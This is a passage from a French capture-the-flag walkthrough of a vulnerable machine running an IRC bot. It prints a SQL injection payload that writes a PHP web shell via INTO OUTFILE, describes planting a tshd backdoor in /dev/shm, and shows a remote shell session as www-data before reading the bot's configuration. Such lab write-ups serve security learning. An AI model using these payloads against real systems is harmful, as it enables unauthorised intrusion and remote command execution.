 ```php
        {
                print("YOU LOGGED IN!<br/>");
        }
        mysql_close($link);
```

J'aurais pu le récupérer grace au *file\_get\_contents* sans passer par la base de données ;-)  

L'exploitation est ici très limitée en raison du basename().  

Comment améliorer notre accès ? Les options *--os-shell* et *--os-cmd* de sqlmap n'aboutissent pas.  

J'ai essayé de trouver des fichiers accessibles en lecture qui auraient pu me donner une autre piste mais sans succès.  

Je suis donc revenu sur le SQL et en exploitant un *INTO OUTFILE* ça a fonctionné... Comme quoi il ne faut jamais faire trop confiance aux outils qu'on utilise.  

Pour cela j'ai simplement saisi comme nom d'utilisateur :  

```plain
' union select '<?php system($_GET["cmd"]); ?>', '' into outfile '/var/www/bd.php'#
```

En explorant les dossiers via la backdoor j'ai remarqué que sqlmap créait bien des fichiers mais ces derniers étaient vides...  

Je tente d'uploader un tshd dans le dossier courant (/var/www) et de lui donner des droits d'exécution mais l'opération ne passe pas, le changement de permission ne semble pas pris en compte sans pour autant lever d'erreur :(  

Idem pour /tmp. La commande mount n'a rien révélé de particulier... qu'importe /dev/shm m'a sauvé une fois de plus :)  

Le chat' bot-é
--------------

```plain
mabox:~$ ./tsh 192.168.1.53
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ uname -a
Linux IRCC2 2.6.32-5-686 #1 SMP Fri May 10 08:33:48 UTC 2013 i686 GNU/Linux
```

Dans les processus je remarque cette ligne :  

```plain
root      1537  0.0  1.2  28748  6360 ?        S    May29   0:00 php /root/decoded.php
```

Bien sûr le fichier est inaccessible (ce serait trop facile). Heureusement on trouve la version d'origine dans la racine web (*/var/www/botsources/botcode.php.txt*).  

Le script commence par définir différentes variables :  

```php
$servers   = "127.0.0.1";
$ports     = "6667";
$admins    = "";
$channels  = "#somechannel";
$realnames = "jhl";
$nicknames = "jhl1,jhl2,jhl3,jhl4,(...snip...),jhl27,jhl28,jhl29,jhl30";
$chanpass  = "trolol";
```
